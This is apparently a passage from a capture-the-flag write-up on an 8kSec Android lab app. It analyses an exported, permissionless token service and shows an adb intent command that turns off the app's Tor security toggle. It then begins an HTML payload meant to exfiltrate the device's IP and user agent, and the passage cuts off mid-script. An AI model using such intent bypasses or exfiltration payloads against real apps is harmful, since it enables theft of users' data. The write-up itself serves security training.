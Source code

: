     - `onTransact` exposes transactions 1 (`getSecurityToken`) and 2 (`disableSecurity`)

- **Manifest:** `<service android:exported="true">` with actions `ITokenService`/`TOKEN_SERVICE`. **WITHOUT PERMISSIONS**.

Now, in the *interface* **``ITokenService``** (AIDL) we can notice:
```java
public boolean disableSecurity() throws RemoteException {
    return false;
}
```

Finally, **`TokenClient`** that have a *callback* `getSecurityToken(Callback)`:

- `bindService()` to `com.eightksec.droidview.ITokenService`; above `onServiceConnected` invoke `getSecurityToken()`.
```java
public void getSecurityToken(TokenCallback tokenCallback) {
    this.callback = tokenCallback;
    Intent intent = new Intent("com.eightksec.droidview.ITokenService");
    intent.setPackage("com.eightksec.droidview");
    
    if (this.context.bindService(intent, this.serviceConnection, Context.BIND_AUTO_CREATE) || tokenCallback == null) {
        return;
    }
    
    tokenCallback.onError("Failed to bind to token service");
}
```
### Bypassing Tor Security
First we need **disable/bypass** the **Tor Security** protection.

In the Main Activity, we saw that there are some intents, and passing as extras the **status** of the Tor security.

Active the *toggle* for *Tor Security* and then let's check that using **ADB**
```bash
adb shell am start -n com.eightksec.droidview/.MainActivity \
  -a com.eightksec.droidview.TOGGLE_SECURITY --ez enable_security false \
  --activity-single-top
```
We send the extra (`ez` for boolean values) `enable_security` as *false*.

The `--activity-single-top` is used for test due that we already was launched the application.

And we can notice that **successfully we can bypass the mechanism**.

This can be *exploited* crafting a *malicious application* that send an intent to target app with the *same configuration*.
### Crafting the payload
According to challenge specifications, we must create an `payload.html` file that **theft device information**.

This is the *HTML code that will fulfill one of the requirements 8kSec asks* of us for the challenge: *exfiltrating the IP address, User Agent, and other elements*.
```HTML
<!doctype html>

<meta charset="utf-8">
<title>PoC</title>
<body></body>

<script>
(async () => {
  // avoiding urls
  try { history.replaceState({}, "", "/"); } catch(e){}

```